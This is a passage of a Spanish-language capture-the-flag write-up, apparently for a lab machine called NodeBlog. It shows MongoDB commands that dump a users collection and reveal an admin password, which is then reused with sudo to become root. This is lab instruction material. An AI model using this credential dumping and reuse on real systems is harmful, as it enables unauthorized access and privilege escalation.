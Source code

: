 ```bash
show dbs
```

```bash
use blog
```

```bash
show collections
```

```bash
db.users.find()
```

y ahí podemos ver la contraseña de admin que seria  " `IppsecSaysPleaseSubscribe`"


nos salimos de la base de datos poniendo "exit"

y probamos sudo -l con la contraseña

![[20250724100637.png]](nodeblog-images/20250724100637.png)
ahora si tenemos acceso y vemos que podemos ejecutar cualquier comando como root desde cualquier usuario

así que ponemos :

```bash
sudo su
```

![[20250724100748.png]](nodeblog-images/20250724100748.png)
